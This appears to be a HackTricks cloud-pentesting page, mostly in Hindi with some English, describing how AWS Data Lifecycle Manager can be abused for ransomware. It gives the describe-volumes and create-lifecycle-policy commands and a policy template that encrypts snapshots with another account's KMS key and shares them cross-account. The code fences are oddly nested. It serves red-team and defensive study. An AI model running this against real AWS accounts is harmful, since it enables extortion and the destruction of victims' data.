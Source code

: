 # AWS - डेटा जीवनकाल प्रबंधक

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## डेटा जीवनकाल प्रबंधक (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

रैंसमवेयर हमला इस प्रकार किया जा सकता है कि जितने भी EBS वॉल्यूम्स संभव हो, उन्हें एन्क्रिप्ट करके फिर मौजूदा EC2 इंस्टेंस, EBS वॉल्यूम्स, और स्नैपशॉट्स को मिटा दिया जाए। इस दुराचारी गतिविधि को स्वचालित करने के लिए, व्यक्ति अमेज़न DLM का उपयोग कर सकता है, स्नैपशॉट्स को एक अन्य AWS खाते से KMS कुंजी के साथ एन्क्रिप्ट करके और एन्क्रिप्टेड स्नैपशॉट्स को एक अलग खाते में स्थानांतरित करके। या फिर वे स्नैपशॉट्स को एन्क्रिप्शन के बिना उस खाते में स्थानांतरित कर सकते हैं जिसे वे प्रबंधित करते हैं और फिर उन्हें वहां एन्क्रिप्ट कर सकते हैं। हालांकि मौजूदा EBS वॉल्यूम्स या स्नैपशॉट्स को सीधे एन्क्रिप्ट करना सीधा नहीं है, इसे एक नया वॉल्यूम या स्नैपशॉट बनाकर किया जा सकता है।

सबसे पहले, व्यक्ति एक कमांड का उपयोग करेगा जिसके द्वारा वॉल्यूम्स पर जानकारी जुटाई जाएगी, जैसे कि इंस्टेंस आईडी, वॉल्यूम आईडी, एन्क्रिप्शन स्थिति, संलग्नता स्थिति, और वॉल्यूम प्रकार।
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```hindi
aws dlm create-lifecycle-policy --description "मेरी पहली नीति" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
```

A template for the policy document can be seen here:
```bash
```json
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "उदाहरणकी",
"Value": "उदाहरणमूल्य"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "वित्त"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
